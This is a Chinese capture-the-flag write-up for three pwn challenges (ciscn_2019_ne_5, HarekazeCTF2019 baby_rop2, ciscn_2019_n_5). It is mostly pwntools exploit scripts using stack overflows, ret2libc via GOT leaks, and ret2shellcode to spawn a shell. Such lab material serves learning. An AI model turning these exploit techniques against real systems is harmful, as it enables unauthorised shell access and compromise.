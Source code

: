 ### ciscn_2019_ne_5

本题有 `GetFlag` 的后门，有一个 `memcpy` 的操作，此时需要关注的偏移实际上是 `dest` 到 `ebp` 的距离。管理员密码可直接通过反编译得到。

```python
binsh = 0x80482ea
sla('password:','administrator')
sla('Exit\n:','1')
payload = flat('a'*(0x48+4),elf.plt['system'],'a'*4,binsh)
sla('info:',payload)
sla('Exit\n:','4')
```

### [HarekazeCTF2019]baby_rop2
题目给定了 libc，结合题目名可以想到 ret2libc，这里只能调用 `printf` 来打印函数 GOT 地址，其余和常规 ret2libc 相同。

```python
pop_rdi = 0x400733
payload = flat('a'*0x28,pop_rdi,elf.got['read'],elf.plt['printf'],elf.sym['main'])
sla('name?', payload)
ru('\n')
read = uu64(r(6))
leak('read', read)
system, binsh = ret2libc(read,'read','./libc.so.6')
payload = flat('a'*0x28,pop_rdi,binsh,system,'a'*8)
sla('name?', payload)
```

### ciscn_2019_n_5
本题没有开启任何保护，因此方法多样，例如 ret2libc：
```python
sla('name\n', 'merc')
pop_rdi = 0x400713
#ret = 0x4004c9
payload = flat('a'*0x28,pop_rdi,elf.got['read'],elf.plt['puts'],elf.sym['main'])
ru('me?\n')
sl(payload)
read = uu64(r(6))
leak('read',read)
sla('name\n', 'merc')
system, binsh = ret2libc(read,'read')
payload = flat('a'*0x28,pop_rdi,binsh,system,'a'*8)
sla('me?\n', payload)
```

或者更简单的 ret2shellcode：
```python
sla('name\n', asm(shellcraft.sh()))
payload = flat('a'*0x28,0x601080)
ru('me?\n')
sl(payload)
```

由于远程 libc 版本和本地二进制文件的版本不同，打远程时推荐使用 ret2shellcode，感觉这个更接近预期解。
